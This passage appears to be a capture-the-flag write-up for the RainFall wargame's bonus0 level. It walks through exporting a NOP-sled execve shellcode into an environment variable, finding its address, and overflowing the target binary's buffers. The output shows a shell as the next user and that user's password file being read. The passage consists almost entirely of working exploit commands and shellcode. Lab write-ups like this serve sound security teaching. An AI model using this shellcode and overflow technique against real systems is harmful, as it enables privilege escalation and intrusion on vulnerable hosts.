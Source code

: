 To make this code work we have to first export the shellcode, we can do that with this command:

```sh
export SHELLCODE=$(python -c "print('\x90' * 500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
```

Then we can retrieve the address of SHELLCODE with the env_address script:

```sh
bonus0@RainFall:/tmp$ ./a.out SHELLCODE
Searching address of SHELLCODE env variable:
Big-endian format: 0xbffff71f
Lil-endian format: \x1f\xf7\xff\xbf
```

Finally we can copy the Lil-endian format, and replace the ADDRESS by it:

```sh
(python -c "print '\x90' * 30"; python -c "print 'A' * 9 + '$ADDRESS' + 'B' * 7"; cat) | /home/user/bonus0/bonus0
```

```sh
bonus0@RainFall:~$ (python -c "print '\x90' * 30"; python -c "print 'A' * 9 + '\x1f\xf7\xff\xbf' + 'B' * 7"; cat) | /home/user/bonus0/bonus0
 - 
 - 
��������������������AAAAAAAAA���BBBBBBB��� AAAAAAAAA���BBBBBBB���
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
